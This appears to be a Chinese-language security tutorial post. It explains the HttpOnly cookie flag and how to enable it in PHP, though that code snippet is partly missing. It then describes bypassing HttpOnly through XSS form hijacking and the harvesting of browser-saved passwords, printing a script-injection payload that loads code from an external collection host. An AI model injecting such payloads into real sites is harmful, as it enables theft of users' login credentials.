



## **<font style="color:rgb(38, 38, 38);">关于httponly </font>**
`<font style="color:rgb(38, 38, 38);">HttpOnly</font>`<font style="color:rgb(38, 38, 38);">是包含在http返回头</font>`<font style="color:rgb(38, 38, 38);">Set-Cookie</font>`<font style="color:rgb(38, 38, 38);">里面的一个附加的flag，所以它是后端服务器对</font>`<font style="color:rgb(38, 38, 38);">cookie</font>`<font style="color:rgb(38, 38, 38);">设置的一个附加的属性  
</font><font style="color:rgb(38, 38, 38);">如果HTTP响应标头中包含</font>`<font style="color:rgb(38, 38, 38);">HttpOnly</font>`<font style="color:rgb(38, 38, 38);">标志（可选），客户端脚本将无法访问</font>`<font style="color:rgb(38, 38, 38);">cookie</font>`<font style="color:rgb(38, 38, 38);">（如果浏览器支持该标志的话），因此即使客户端存在跨站点脚本（XSS）漏洞，浏览器也不会将</font>`<font style="color:rgb(38, 38, 38);">Cookie</font>`<font style="color:rgb(38, 38, 38);">透露给第三方，将会返回一个空的字符串  
</font><font style="color:rgb(38, 38, 38);">如果浏览器不支持</font>`<font style="color:rgb(38, 38, 38);">HttpOnly</font>`<font style="color:rgb(38, 38, 38);">，并且后端服务器尝试设置</font>`<font style="color:rgb(38, 38, 38);">HttpOnly cookie</font>`<font style="color:rgb(38, 38, 38);">，浏览器也会忽略</font>`<font style="color:rgb(38, 38, 38);">HttpOnly</font>`<font style="color:rgb(38, 38, 38);">标志，从而创建传统的，脚本可访问的</font>`<font style="color:rgb(38, 38, 38);">cookie</font>`<font style="color:rgb(38, 38, 38);">（通常是会话cookie）容易受到XSS攻击</font>

### **<font style="color:rgb(38, 38, 38);">设置httponly</font>**
```html
PHP中的设置

PHP5.2以上版本已支撑HttpOnly参数的设置，一样也支撑全局的HttpOnly的设置，在php.ini中

session.cookie_httponly =

设置其值为1或许TRUE，来开启全局的Cookie的HttpOnly属性，固然也支撑在代码中来开启：

// or session_set_cookie_params(0, NULL, NULL, NULL, TRUE);

?>
```

## **<font style="color:rgb(38, 38, 38);">绕过httponly</font>**
<font style="color:rgb(38, 38, 38);">一般来说获取登录到网站管理员权限只有俩种方法，一种是劫持管理员的</font>`<font style="color:rgb(38, 38, 38);">cookie</font>`<font style="color:rgb(38, 38, 38);">或者获取到管理员的账户和密码，既然</font>`<font style="color:rgb(38, 38, 38);">httponly</font>`<font style="color:rgb(38, 38, 38);">无法使我们获取到</font>`<font style="color:rgb(38, 38, 38);">cookie</font>`<font style="color:rgb(38, 38, 38);">,那么只能通过获取到账户名和密码的方式绕过</font>`<font style="color:rgb(38, 38, 38);">httponly</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">1如果浏览器未保存账号密码：  
</font><font style="color:rgb(38, 38, 38);">那么，可以使用表单劫持，将用户输入的账户名和密码（也可以是管理员），另存一份打包发至我们的接收地址，但是局限于登录页面存在跨站脚本的漏洞，否则无法生效  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">如图所示，填写对方登录页的表单中的</font>`<font style="color:rgb(38, 38, 38);">name</font>`<font style="color:rgb(38, 38, 38);">、</font>`<font style="color:rgb(38, 38, 38);">id</font>`<font style="color:rgb(38, 38, 38);">、</font>`<font style="color:rgb(38, 38, 38);">came</font>`<font style="color:rgb(38, 38, 38);">属性，这里正好拿我写的网站做演示  
</font><font style="color:rgb(38, 38, 38);">然后将生成的</font>`<font style="color:rgb(38, 38, 38);"><sCRiPt/SrC=//xss8.cc/cvEn></font>`<font style="color:rgb(38, 38, 38);">代码，手动插入登录页，只要对方登录了，表单就会发送到我得接收地址上  
  
</font><font style="color:rgb(38, 38, 38);">2如果浏览器保存了账户密码  
</font><font style="color:rgb(38, 38, 38);">那么只要全站有一个地方出现了跨站脚本，例如留言框，个人中心，那么浏览器所保存的 用户名和密码就会被发送至接收地址，只要在同域下，即使</font>`<font style="color:rgb(38, 38, 38);">www.a.com/admin/l.php</font>`<font style="color:rgb(38, 38, 38);">存在跨站脚本，那么对</font>`<font style="color:rgb(38, 38, 38);">www.a.com/login.php</font>`<font style="color:rgb(38, 38, 38);">同样生效  
</font><font style="color:rgb(38, 38, 38);">配置获取浏览器明文密码的参数，都为</font>`<font style="color:rgb(38, 38, 38);">input</font>`<font style="color:rgb(38, 38, 38);">标签属性  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">登录账户名密码，选择浏览器保存</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">不知为何，只接收到了username，并没有password，难道是要真的只能获取明文吗！  
</font><font style="color:rgb(38, 38, 38);">反正这些本身就很鸡肋，限制太多，知道原理就行了</font>


### 


